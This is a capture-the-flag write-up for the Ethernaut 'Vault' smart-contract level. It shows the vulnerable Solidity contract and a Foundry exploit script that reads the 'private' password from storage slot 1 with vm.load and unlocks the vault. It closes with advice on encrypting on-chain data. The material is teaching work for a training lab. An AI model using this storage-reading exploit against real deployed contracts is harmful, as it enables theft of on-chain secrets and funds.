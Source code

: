 # Level 8 - Vault ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/8" %}

### Level Setup

{% hint style="info" %}
Unlock the vault to pass the level!
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Vault.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```
{% endcode %}

### Exploit

Private variable aren't secret, they are just not accessible by other smart contracts directly during smart contract execution. They can be read directly from the storage slots.

1. Use foundrys `vm.load` cheatcode to get the data in the slot.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-8

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-8

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level8.s.sol" %}

{% code title="script/Level8.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

interface IVault {
    function unlock(bytes32 _password) external;
}

// ================================================================
// │                          LEVEL 8 - VAULT                     │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IVault targetContract = IVault(targetContractAddress);

        bytes32 password = vm.load(targetContractAddress, bytes32(uint256(1)));
        console.log("Password: %s", bytesToString(password));

        vm.startBroadcast();
        targetContract.unlock(password);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.
{% endhint %}

### Notes

*
